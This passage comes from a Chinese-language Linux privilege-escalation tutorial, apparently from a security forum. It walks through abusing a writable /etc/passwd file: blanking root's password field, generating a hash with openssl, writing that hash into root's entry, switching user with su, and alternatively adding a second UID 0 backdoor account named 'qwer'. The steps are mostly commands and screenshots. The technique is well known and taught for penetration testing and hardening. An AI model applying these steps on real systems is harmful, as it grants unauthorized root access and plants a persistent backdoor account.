 第二个字段中的`x`指示 Linux 查找 /etc/shadow文件中的密码哈希。

在Linux的某些版本中，可以简单地删除`x`，Linux 将其解释为用户没有密码：

```php
root::0:0:root:/root:/bin/bash
```

### 实操

#### 检查/etc/passwd文件的权限：

```php
ls -l /etc/passwd 
```

![image-20210630145719525](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-1d17ffaacac1782359e1b8868a61f04067038589.png)

#### 2.使用openssl生成密码哈希：

```php
openssl passwd "qwer" 
```

![image-20210630145846124](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-90136757924d867769f3af88787eddaf5caf063d.png)

#### 3.编辑 `/etc/passwd`文件

输入root用户行第二个字段中的哈希：

```php
ZSL11eCDBkMnk
```

![image-20210630145957018](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-499c28460b26da220b1efe707e59deb849a0f5d3.png)

![image-20210630150036456](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-ab9cb2773a5ba1144695f074c1713f23b773b586.png)

保存 退出

#### 4.使用su命令切换到根用户

```php
su
```

![image-20210630150207862](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-0762789be80df92fd273a1f9180af5684adc362f.png)

因为优先级问题 所以机器root账户的密码是：qwer

#### or

#### 1.创建备用根用户

```php
qwer:ZSL11eCDBkMnk:0:0:root:/root:/bin/bash
```
